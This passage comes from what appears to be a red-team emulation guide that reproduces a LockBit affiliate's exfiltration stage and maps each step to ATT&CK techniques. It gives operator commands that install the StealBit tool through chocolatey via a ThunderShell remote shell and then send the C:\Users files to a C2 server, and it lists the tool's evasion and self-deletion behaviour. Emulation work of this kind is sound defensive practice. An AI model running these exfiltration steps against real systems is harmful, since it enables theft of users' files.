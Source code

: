 | Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| chocolatey downloads ThunderShell | - | T1105 Ingress Tool Transfer | [CISA](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-075a) |
| ThunderShell is executed via PowerShell | - | T1059.001 Command and Scripting Interpreter: PowerShell | - |
| ThunderShell communicates over HTTP | - | T1071.001 Application Layer Protocol: Web Protocols | - |

## Step 7 - Exfiltration (Evaluation Step 15)

### :microphone: Voice Track

Leveraging `ThunderShell` to remotely access `quirrell (10.99.9.202)`, the LockBit
affiliate executes `chocolatey` to download `StealBit` for file discovery, system
information gathering, and data exfiltration.

`StealBit` is an exfiltration tool utilizing native APIs and threading to
optimize execution and exfiltration of files. It also performs the following
behaviors:

* Checks if being debugged and infinitely loops
* Recursively enumerates folders and files, avoiding deny-list items
* Checks C2 server connectivity using an HTTP GET request
* Exfiltrates files using HTTP PUT requests
* Deletes itself on completion

### :biohazard: Procedures

* In the ThunderShell prompt, enter the following command to interact with the
newly registered shell:

    ```bash
    interact 1
    ```

* In the shell interaction prompt, enter the following command to download
`StealBit` to `quirrell (10.111.9.202)`:

    ```bash
    choco install connhost -y
    ```

* :camera: Screenshot the connhost install output.

* In the shell interaction prompt, enter the following command to execute
`StealBit`:

    ```bash
    connhost.exe C:\\Users\\ -d
    ```

* Switch to the evalsC2server tab and confirm the exfiltrated files were
received successfully. The ThunderShell prompt should print out the following
once StealBit has finished execution:
